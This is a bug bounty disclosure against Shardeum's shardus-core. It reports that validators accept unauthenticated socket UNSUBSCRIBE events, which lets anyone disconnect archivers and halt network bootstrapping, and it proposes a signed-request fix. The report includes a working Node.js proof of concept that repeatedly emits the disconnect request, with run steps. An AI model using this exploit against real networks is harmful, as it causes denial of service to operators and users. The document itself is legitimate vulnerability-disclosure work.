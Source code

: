 
# Preventing the network from loading by disconnecting the socket connection between validators and archivers

Submitted on Jul 10th 2024 at 09:05:58 UTC by @infosec_us_team for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33044

Report type: Blockchain/DLT

Report severity: Medium

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Vulnerability Details

The socket connection in a Validator listens to an `UNSUBSCRIBE` event and expects the ARCHIVER_PUBLIC_KEY of an Archiver Server that wishes to unsubscribe.

```
socket.on('UNSUBSCRIBE', function(ARCHIVER_PUBLIC_KEY) {
    console.log(`Archive server has with public key ${ARCHIVER_PUBLIC_KEY} request to unsubscribe`)
    Archivers.removeArchiverConnection(ARCHIVER_PUBLIC_KEY)
})
```
> The "*removeArchiverConnection(...)*" function disconnects the socket connection with the Archiver Server.
>
> Code snippet from: https://github.com/shardeum/shardus-core/blob/dev/src/shardus/index.ts#L491-L494

Unfortunately, anyone can connect to the socket of a Validator and request the disconnection of any or all the currently connected Archive Servers.

In our tests, reproducing the attack while the first Validator is in the Syncing phase, prevents all other Validators from joining the network later, and after up to ~15 minutes of re-attempting, they all shut down themselves.

## Recommended fix

The **UNSUBSCRIBE** request must require a stringified object with the following fields:

**1-** The ARCHIVER_PUBLIC_KEY to disconnect

**2-** The signature of a message containing the IP address requesting the disconnection of the Archive Server.

**3-** A timestamp and nonce for the signature, to prevent replay attacks.

If a message containing the IP address that is requesting the disconnection is signed with the private key of the Archive Server, we can verify that this is an authorized request.

## Impact Details

A malicious agent can prevent the network from bootstrapping, which leads to the network not being able to confirm new transactions (total network shutdown).

> We haven't played around yet with disconnecting Archive Servers from Validators after the network is fully operational, but it could be a good experiment to see what goes wrong.






## Proof of Concept

As a proof of concept, we created a Node JS project, that connects to the socket of a Validator and requests to unsubscribe the Archive Server.

In the code below you must replace the IP address and PORT of the socket connection with yours (or let it the same if it applies to your setup as well). Finally, we hardcoded the public key of the Archive Server we want to disconnect but you can adapt the test to your needs.

```
// client.js
const io = require('socket.io-client');
const socket = io('http://192.168.0.15:9001');


socket.on('connect', () => {
	console.log('Connected to server');
	setInterval(() => {
		console.log('Sending message');
		socket.emit('UNSUBSCRIBE', '758b1c119412298802cd28dbfa394cdfeecc4074492d60844cc192d632d84de3');
	}, 1000);
});

socket.on('disconnect', () => {
	console.log('Disconnected from server');
});

socket.on('message', (msg) => {
	console.log('Message from server:', msg);
});
```

To execute the attack:

**Step 1-** Create a Node JS project with the code provided above in an `index.js` file.

**Step 2-** Start the network with `shardus start 20`

**Step 3-** As soon as you do, run the exploit with `node index.js` inside the Node JS project.